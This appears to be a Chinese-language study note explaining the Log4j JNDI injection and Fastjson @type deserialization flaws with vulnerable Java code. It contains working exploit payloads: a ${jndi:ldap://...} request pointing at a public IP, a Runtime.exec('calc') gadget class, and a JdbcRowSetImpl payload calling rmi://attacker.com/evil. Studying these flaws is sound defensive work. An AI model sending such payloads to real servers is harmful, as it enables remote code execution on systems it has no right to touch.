 ## log4j

log4j是一个日志记录框架

maven导入：

```xml
 <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```



```java
public class Log4jTest {
    //使用log4j实现错误日志输出
    private static final Logger log = LogManager.getLogger(Log4jTest.class);

    public static void main(String[] args) {

        //如果code变量是可控的，那就可以执行命令
        String code = "${java:vm}";
        log.error("{}",code);
    }
}
```

输出：

```
15:57:44.994 [main] ERROR org.example.Log4jTest - Java HotSpot(TM) 64-Bit Server VM (build 25.201-b09, mixed mode)
```



对于web来说：

```java
@WebServlet("/log4j")
public class Log4jServlet extends HttpServlet {
    private static final Logger log = LogManager.getLogger(Log4jServlet.class);

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String code = req.getParameter("code");
        log.error("{}", code);
    }
}

```

访问：

```
http://localhost:8080/Log4jWeb_war_exploded/log4j?code=${java:vm}
```

实现一样的效果



RMI：远程方法调用

LDAP：



在云服务器上通过JNDIExploit工具生成一个弹计算器的可远程访问的调用方法，例如`ldap://47.94.236.117:1389/uyida`

然后在页面访问：

```
http://localhost:8080/Log4jWeb_war_exploded/log4j?code=${jndi:ldap://47.94.236.117:1389/uyida}
```

1、开发源码中引用漏洞组件如log4j

2、开发中使用出发漏洞的代码

3、可控变量去传递payload来实现攻击

![image-20250620162637623](assets/image-20250620162637623.png)



## FastJson

```java
// 使用fastjson去处理User数据
public class FastjsonDemo {
    public static void main(String[] args) {
        //定义一个u对象
        User u = new User();
        u.setAge(30);
        u.setName("张三");
        System.out.println(u);
        // org.example.User@74a14482

        //普通的序列化：使用fastjson的toJSONString方法将User对象转为JSON字符串
        String jsonString = JSONObject.toJSONString(u);
        System.out.println(jsonString);
        // {"age":30,"name":"张三"}

        
        //WriteClassName特性会在JSON中加入@type字段，表示这个JSON反序列化后要还原成哪个类
        String jsonString1 = JSONObject.toJSONString(u, SerializerFeature.WriteClassName);
        System.out.println(jsonString1);
        // {"@type":"org.example.User","age":30,"name":"张三"}

        String test = "{\"@type\":\"org.example.User\",\"age\":30,\"name\":\"张三\"}";
        JSONObject jsonObject = JSON.parseObject(test);
        System.out.println(jsonObject);
        //{"name":"张三","age":30}
    }
}
```

Fastjson反序列化漏洞原理：如果使用了parseObject()且输入了包含@type的JSON，Fastjson会尝试通过反射加载这个类（上面的org.example.User）并**自动创建对象实例**。如果这个类有“危险的构造方法”或者“恶意类路径”，就可能触发代码执行。

如果我写一个类：

```java
public class RunDemo {
    public RunDemo() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

然后通过这个去反序列化：

```
String test = "{\"@type\":\"org.example.RunDemo\",\"age\":30,\"name\":\"张三\"}";
JSONObject jsonObject = JSON.parseObject(test);
System.out.println(jsonObject);
```

就会弹出计算器



实战中，org.example.RunDemo我们是不知道的，所以用rmi ldap去触发远程的class



典型的攻击思路：

```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "rmi://attacker.com/evil",
  "autoCommit": true
}
```

在 Fastjson（<1.2.68）中会实例化 `JdbcRowSetImpl` 并调用 `setDataSourceName()` 方法，触发 JNDI 远程加载，最终加载攻击者部署的远程类，执行恶意代码

